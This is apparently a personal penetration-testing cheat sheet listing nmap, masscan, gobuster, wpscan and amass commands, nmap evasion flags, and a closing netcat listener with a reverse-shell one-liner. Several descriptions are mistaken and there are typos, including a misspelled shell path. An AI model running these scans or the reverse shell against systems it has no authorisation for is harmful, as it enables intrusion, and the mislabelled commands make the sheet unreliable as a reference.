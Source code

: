 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

nmap -sn 192.168.0.1/24 - scans network for all hosts  
nmap -sV <ip> - does a service scan on a target ip  
nmap --script vuln <ip> - does a quick vulnerability scan on a host  
namp -A <ip> - does a deep scan for everything above.  
other options -f (fragment, make it harder for detection), --source 53 (make it appear as if coming from dns port),  

masscan 192.168.0.1/24 -p0-65535 --rate=10000 - scans network for all hosts, but fast  
masscan 192.168.0.1/24 -p23 --rate=1000 - does a quick scan for all telnet open  
other options --randomize-hosts (dont scan in order)  

curl -u http://website - display website header and info  

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   
